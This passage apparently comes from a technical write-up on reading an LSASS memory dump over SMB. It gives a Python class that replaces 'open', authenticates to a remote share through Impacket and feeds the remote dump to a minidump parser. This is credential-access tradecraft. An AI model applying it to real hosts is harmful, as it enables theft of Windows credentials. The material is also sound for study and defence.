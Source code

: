 This is the code that we were looking for. The lsass dump that we are trying to analyze is opened and then parsed. The parsing is only using `read`, `seek` and `tell` method on the file object. 

We just have to write some code than implements these methods but on a remote file. We'll use Impacket for this purpose.

```python
"""
'open' is rewritten to open and read a remote file
"""
class open(object):
    def __init__(self, fpath, mode):
        domainName, userName, password, hostName, shareName, filePath = self._parseArg(fpath)
        """
        ImpacketSMBConnexion is a child class of impacket written to simplify the code
        """
        self.__conn = ImpacketSMBConnexion(hostName, userName, password, domainName)
        self.__fpath = filePath
        self.__currentOffset = 0
        self.__tid = self.__connectTree(shareName)
        self.__fid = self.__conn.openFile(self.__tid, self.__fpath)        

    """
    Parse "filename" to extract remote credentials and lsass dump location
    """
    def _parseArg(self, arg):
        pattern = re.compile(r"^(?P<domainName>[a-zA-Z0-9.-_]+)/(?P<userName>[^:]+):(?P<password>[^@]+)@(?P<hostName>[a-zA-Z0-9.-]+):/(?P<shareName>[^/]+)(?P<filePath>/(?:[^/]*/)*[^/]+)$")
        matches = pattern.search(arg)
        if matches is None:
            raise Exception("{} is not valid. Expected format : domain/username:password@host:/share/path/to/file".format(arg))
        return matches.groups()
    
    def close(self):
        self.__conn.close()

    """
    Read @size bytes
    """
    def read(self, size):
        if size == 0:
            return b''
        value = self.__conn.readFile(self.__tid, self.__fid, self.__currentOffset, size)
        return value

    """
    Move offset pointer
    """
    def seek(self, offset, whence=0):
        if whence == 0:
            self.__currentOffset = offset

    """
    Return current offset
    """
    def tell(self):
        return self.__currentOffset
```
So we have our new class which authenticates on a network share, and can read a remote file with the methods mentioned. If we tell minidump to use this class instead of the classic `open` method, then minidump will read remote content without flinching.
